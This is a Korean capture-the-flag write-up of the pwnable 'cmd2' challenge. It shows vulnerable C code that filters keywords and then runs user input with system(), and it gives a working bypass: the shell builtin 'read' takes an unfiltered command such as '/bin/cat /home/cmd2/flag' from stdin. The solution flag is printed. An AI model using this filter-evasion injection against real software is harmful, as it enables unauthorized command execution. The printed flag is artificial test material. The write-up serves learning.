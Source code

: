 ```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}

```

* delete_env는 environment variable을 모두 삭제하는 내용이다. extern char** environ에 대해서는 man environ 해보면 자세한 내용이 설명되어 있다.

* argv를 통해서 뭘 등록시켜 보려고 해도 export고 PATH고 =고 전부 ban word라 안된다

* working directory를 /bin으로 하고 실행해보면 뭐가 될까 싶었는데 /가 안되서 아무것도 실행할수 없다. /를 대체할수 있는 뭔가 있는가 싶어 찾아봤지만 안된다

* 어떻게 풀어야 할지 난감했는데 실험하다 보니 echo나 pwd같은 명령어는 잘 된다는 것을확인. 나는 이게 /bin에 있는 binary인줄 알았는데 그렇다면 ls나 cat과 마찬가지로 안되어야 하므로 sh의 내장명령어 같은거일거라고 짐작했다.

* sh에 대해 잘 설명되어 있는곳: https://www.computerhope.com/unix/ush.htm

* 그중에 이런게 있었다
~~~
read [-r] name ...	
One line is read from the standard input; successive words of the input are assigned to the variables name in order, with leftover words to the last variable. The return code is 0 unless end-of-file is encountered. Normally, backslashes escape the following character; this is inhibited if the -r option is given.
~~~

* 대략 read xxx yyy 하고 실행하면 stdin으로 input을 받고, 이 input을 word 단위로 tokenize하여 xxx, yyy에 넣는다고 한다. 그리고 word의 숫자가 input보다 크면 마지막 variable에 전부가 들어간다고 한다. 대략 아래처럼 됨

~~~
cmd2@pwnable:~$ read i_ls i_ps && $i_ls && $i_ps
ls ps
cmd2  cmd2.c  flag
error: can not access /proc   # 서버에서 ps할 수 있는 권한이 없어서 이렇게 뜸
~~~

* 내가 stdin으로 주는 것은 filtering을 안하니까 이를 통해 실행시키면 되겠다 싶어 해봤고, 성공함

~~~
cmd2@pwnable:~$ ./cmd2 "read input && \$input"
read input && $input
/bin/cat /home/cmd2/flag
FuN_w1th_5h3ll_v4riabl3s_haha
~~~

writeup을 보니 이것 외에도 여러 기상천외한 solution이 있는듯? 공통점은 sh command를 잘 사용해서 푼다는 점